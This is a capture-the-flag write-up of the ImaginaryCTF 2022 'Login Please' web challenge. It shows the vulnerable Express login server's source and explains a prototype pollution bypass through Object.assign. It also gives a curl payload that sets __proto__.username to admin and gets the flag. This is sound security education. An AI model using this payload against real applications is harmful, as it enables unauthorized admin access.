```yaml
---
title: ImaginaryCTF 2022 - Web Category - Login Please (Write up)
date: 2022-09-18 02:21:02
tags: [Javascript Security, Security, CTF, Javascript Prototype Pollution]
categories:
  - Javascript
---
```


# Introduction

- Category: Web
- Description: Login as admin to get flag, so easy right?
- Language: NodeJS

# TL;DR

- Idea: You can send a JSON with `__proto__` to bypass the `username=admin` check, and crack md5 by using online rainbow table to get flag. It works because `req.body` has a null prototype while the `{}` in `Object.assign()` doesn't.
- Payload: `curl http://puzzler7.imaginaryctf.org:5001/login -H 'Content-Type: application/json' --data '{"password":"admin","__proto__":{"username":"admin"}}'`

# Analyze

At the first glance, we see a login form like the below image.

{% asset_img 1.png %}

Whenever I see a challenge like this I usually press `Ctrl+U` to see the source code.

{% asset_img 2.png %}

Line 13 tells us some hints, this might be the source code at the URI `/source`. I come into `/source` and saw the source code down below:

```javascript
const express = require("express");
const crypto = require("crypto");

function md5(text) {
  return crypto.createHash("md5").update(text).digest("hex");
}

const app = express();

const users = {
  guest: "084e0343a0486ff05530df6c705c8bb4",
  admin: "21232f297a57a5a743894a0e4a801fc3",
  "1337hacker": "2ab96390c7dbe3439de74d0c9b0b1767",
};
const localIPs = ["127.0.0.1", "::1", "::ffff:127.0.0.1"];

app.use(express.urlencoded({ extended: false }));
app.use(express.json());
app.get("/", (req, res) => {
  res.send(`
<form action="/login" method="POST">
    <div>
        <label for="username">Username: </label>
        <input name="username" type="text" id="username">
    </div>
    <div>
        <label for="password">Password: </label>
        <input name="password" type="password" id="password">
    </div>
    <button type="submit">Login</button>
</form>
<!-- /source -->
`);
});

app.post("/login", (req, res) => {
  if (req.body.username === "admin" && !localIPs.includes(req.ip)) {
    return res.end("Admin is only allowed from localhost");
  }
  const auth = Object.assign({}, req.body);
  if (users[auth.username] === md5(auth.password)) {
    if (auth.username === "admin") {
      res.end(`Welcome admin! The flag is ${process.env.FLAG}`);
    } else {
      res.end(`Welcome ${auth.username}!`);
    }
  } else {
    res.end("Invalid username or password");
  }
});

app.get("/source", (req, res) => {
  res.sendFile(__filename);
});

app.get("/package.json", (req, res) => {
  res.sendFile("package.json", { root: __dirname });
});

const port = 5001 || process.env.PORT;
app.listen(port, () => {
  console.log(`Server running on http://localhost:${port}`);
});
```

Combine the source code when I press `Ctrl+U` and travel to `/source`, I can confirm that the middleware `app.post('/login)` will trigger whenever I fill in the login form and press the`Login` button.

`users` constance has a table of key-value and if you try to hash those keys with the same `md5` algorithm, you will see the value after hashed `admin` and `guest` have the same value in the table.

At this stage, you might see how to get the flag by sending the payload `username=admin&password=admin`.

But things don't go easy like this, an if statement `if (req.body.username === 'admin' && !localIPs.includes(req.ip)) { return res.end('Admin is only allowed from localhost') }` not allow you to get the flag.

Sometimes they implement a server using Nginx, we can bypass the if statement above by sending `X-Forwarded-For` header. But this time it won't work.

No more beating around the bush, i will straightforwardly talk about the bug at the middleware `app.post('/login)`. The bug is spotted when they use `Object.assign()` to clone the new instance of `req.body`.

> The `Object.assign()` method copies all enumerable own properties from one or more source objects to a target object. It returns the modified target object.

One thing to note that `req.body` also has a null prototype. So we can pollute the `req.body` object and leverage `Object.assign()` to create a new object with the polluted prototype.

By default, when we press the `Login` button, the client will send `Content-Type: application/x-www-form-urlencoded` header.

So we have to change into `Content-Type: application/json` and send the payload `{"password":"admin","__proto__":{"username":"admin"}}`,

The `if (req.body.username === 'admin' && !localIPs.includes(req.ip)) { return res.end('Admin is only allowed from localhost') }` check the `username` properties of the `req.body` object but it doesn't check`req.body.__proto__.username` which have the same result when we access by `auth.username`.

PoC:
{% asset_img 3.png %}

> Flag: ictf{omg_js_why_are_you_doing_this_to_me}
